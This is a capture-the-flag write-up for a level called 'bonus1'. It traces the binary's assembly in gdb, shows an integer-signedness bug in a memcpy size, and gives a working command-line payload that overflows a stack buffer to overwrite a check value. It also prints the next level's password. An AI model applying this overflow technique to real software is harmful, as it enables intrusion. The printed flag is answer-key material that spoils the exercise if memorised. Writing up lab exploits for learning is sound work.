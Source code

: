 ### Bonus 1

#### Basic Recon
![](./pics/1.png)
there's no obvious shell here, but there's call to `execl`, there is call to `atoi` that is why I tried numbers as input also, let's
debug and see what is going on here, maybe we should get to `execl` we will see later.

#### Debug
stack allocation of main

![](./pics/2.png)
![](./pics/3.png)

and by the address for may be different depending on how you did call it in this case
`gdb --args ./bonus1 1 2`

these instructions

```s
mov eax, DWORD PTR [ebp+0xc]
add eax, 0x4
mov DWORD PTR [esp], eax
```

![](./pics/4.png)
![](./pics/5.png)

now at `esp` we have pointer to the first argument, in this case it is the value `1`
which is being passed to `atoi`

![](./pics/6.png)

the next list of instructions has the effect of moving the value returned by `atoi` to location
*[esp+0x3c]* and compare it against *0x9*

```s
mov DWORD PTR [esp+0x3c], eax
cmp DWORD PTR [esp+0x3c], 0x9
```

after that there's
```s
jle main+43
```
if this is true that means we are going to skip `jmp main+127` which is what I want because if we did
get there (main+127) we would get out and skip `execl`

![](./pics/7.png)

after that we have this instruction
```s
mov eax, DWORD PTR [esp+0x3c]
```
that means eax will have the value 1 for now

after that we have
```s
lea ecx, [eax*4+0x0]
```
so now ecx = eax*4 = first_input * 4

![](./pics/8.png)

the following instructions are responsible for getting the second input
```s
mov eax, DWORD PTR [ebp+0xc]
add eax, 0x8
mov eax, DWORD PTR [eax]
mov edx, eax
```

so now eax and edx are pointing to the second input

![](./pics/9.png)

```s
lea eax, [esp+0x14]
```

now eax point to location in the current stack frame

![](./pics/10.png)
![](./pics/11.png)


after that there's call to `memcpy`

```s
mov DWORD PTR [esp+0x8], ecx ; our first input as number multiplied by 4
mov DWORD PTR [esp+0x4], edx ; pointer to our second input
mov DWORD PTR [esp], eax ; pointer in the current stack frame
```

<spane id="memcpy_call"></a>
```c
memcpy(
    0xbffff6c4, // where to put the data
    0xbffff8dc, // second input
    0x4, how many characters to copy
);
```

![](./pics/12.png)

as you can see from the following `cmp DWORD PTR [esp+0x3c], 0x574f4c46`, so somehow in this location
I need that value to be there you maybe tempted to put the value *0x574f4c46/4* as first input, that
would be mistake because, there's that compare with 0x9 and even if it was not there,
it's going to overwritten by `memcpy` later

hold on take look at we call <a href="#memcpy_call">memcpy</a>

you can see that we can overflow? that location can we? well it seems no because memcpy will copy 
first_input*4, which at max reach 9*4=36, so it's not going to reach the desired location `[esp+0x3c]`
for that we need at at least 44 how would I know we are writing at esp+0x14 and we want to overwrite
esp+0x3c so 44 = 4 + 0x3c=0x14, so are we done game over no way? let's take deeper look at `memcpy`

```c
void *memcpy(void *to, const void *from, size_t numBytes);
```
oops you can see that it takes size_t so what? that means we can pass negative value and it will
cast it, let's try it and see

![](./pics/13.png)
![](./pics/14.png)

as you can see we have reached `memcpy` with very big value now we just need to find the value 44
after the cast, let's check this stuff in details

```
1000 0000 0000 0000 0000 0000 0000 0001 = -2147483647 very small value
```

when multiplied by 4

```
00 0000 0000 0000 0000 0000 0000 000100 = 4
```

keep in mind that multiplying by 4 is like shifting by 2

![](./pics/15.png)

so you can see it is fine, so what we need now is sequence that after multiplying by 4 aka shift by 2
gives 44 why remember I want memcpy to copy 44


here's the sequence that I want after *4
```
00 0000 0000 0000 0000 0000 0000 101100 = 44
```

so that means I should Input this keep mind multiplying by 4 is shifting by 2
```
1000 0000 0000 0000 0000 0000 0000 1011 = -2147483637 use some binary to decimal website
```

#### Payload

```
./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"') 
```

![](./pics/16.png)

#### Password for bonus2

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```